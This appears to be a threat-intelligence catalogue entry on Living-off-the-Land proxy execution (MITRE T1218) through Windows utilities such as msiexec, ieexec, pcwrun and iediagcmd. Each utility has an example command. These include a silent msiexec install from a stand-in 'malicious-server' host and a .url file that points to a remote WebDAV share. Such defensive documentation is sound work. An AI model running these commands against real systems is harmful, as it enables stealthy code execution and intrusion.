

# Leverage Windows Utilities for Proxy Execution of Malicious Code

## Metadata

- **UUID**: `426a0ab5-66e7-4149-82b0-6357a1cf4b4b`
- **Schema**: `threat::1.0`
- **TLP**: clear

## Description
Threat actors frequently exploit legitimate Windows utilities to execute malicious 
code covertly, a technique known as "Living off the Land" (LotL). 
By using trusted system binaries, attackers can bypass security measures that focus 
on untrusted or unusual processes, thereby reducing the likelihood of detection.

### 1. Ieexec.exe

**Description**: A utility that executes .NET programs. Threat actors can use ieexec.exe 
to run malicious executables under the guise of Internet Explorer components.

Example:

```
ieexec.exe C:\path\to\malicious.exe
```

### 2. Ie4uinit.exe

**Description**: Initializes user-specific settings for Internet Explorer. 
Can be misused to execute INF files.

Example:

```
ie4uinit.exe -UserIconConfig
```

### 3. Msiexec.exe

**Description**: Used for installing, modifying, and performing operations 
on Windows Installer packages. Threat actors can execute malicious MSI packages or scripts.

Example:

```
msiexec.exe /q /i http://malicious-server/payload.msi
```

### 4. Pcwrun.exe

**Description**: Part of the Performance Counters for Windows. 
It can be exploited to run scripts or executables under certain conditions.

Example:

```
Pcwrun.exe /../../$(calc).exe
```

### 5. DevToolsLauncher.exe

**Description**: Associated with Visual Studio development tools. 
It can be abused to execute code or scripts in the context of development environments.

Example:

> Execute any binary with given arguments and it will call developertoolssvc.exe. 
developertoolssvc is actually executing the binary.

```
devtoolslauncher.exe LaunchForDeploy [PATH_TO_BIN] "argument here" test
```

### 6. Iediagcmd.exe

**Description**: Diagnostics Utility for Internet Explorer
It can be used to execute binary pre-planted.

Example:

A .url file is sent to the victim or planted on disk.
It sets the WorkingDirectory to \\attacker.webdav.server\share
iediagcmd.exe tries to launch other tools like route.exe, 
netsh.exe, or CustomShellHost.exe.

```
[InternetShortcut]
URL=C:\\Program Files\\Internet Explorer\\iediagcmd.exe
WorkingDirectory=\\\\192.168.8.200@80\\payload
IconFile=C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe
IconIndex=13
ShowCommand=7
```

## Techniques
- T1218

## Chaining

